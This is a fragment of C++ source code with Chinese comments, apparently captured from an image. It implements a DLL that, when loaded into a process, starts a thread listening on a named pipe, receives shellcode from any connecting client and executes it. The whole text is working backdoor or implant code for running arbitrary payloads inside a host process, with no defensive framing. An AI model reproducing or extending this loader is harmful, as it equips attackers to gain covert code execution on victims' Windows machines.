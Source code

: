 ```cpp
    hPipe = CreateNamedPipe(
        PIPE_NAME,
        PIPE_ACCESS_DUPLEX,
        PIPE_WAIT | PIPE_TYPE_MESSAGE | PIPE_TYPE_BYTE | PIPE_READMODE_MESSAGE,
        PIPE_UNLIMITED_INSTANCES,
        BUFF_SIZE + 1,
        BUFF_SIZE + 1,
        0,
        NULL);

    // 检查管道是否创建成功
    if (hPipe == INVALID_HANDLE_VALUE) {
        dwError = GetLastError();
        wprintf(L"[-] Create Pipe Error : %d \n", dwError);
        return dwError;
    }
    wprintf(L"[+] Create Pipe Success : %s \n", PIPE_NAME);

    // 循环等待客户端连接
    while (true)
    {   
        // 连接管道
        if (ConnectNamedPipe(hPipe, NULL) > 0) {
            CHAR szBuffer[BUFF_SIZE];
            BYTE  bMethod;

            ZeroMemory(szBuffer, BUFF_SIZE);
            wprintf(L"[+] Client Connected...\n");

            // 读取从管道接收到的指令
            ReadFile(hPipe, &bMethod, 1, &dwLen, NULL);

            // 根据接收到的指令进行加载shellcode
            if (bMethod == LOAD_SHELLCODE) {
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(ExecuteShellCode(szBuffer, dwLen), hPipe);
            }

            // 与管道断开连接
            DisconnectNamedPipe(hPipe);
        }
    }

}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)HandleCode, NULL, 0, &dwThreadId);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```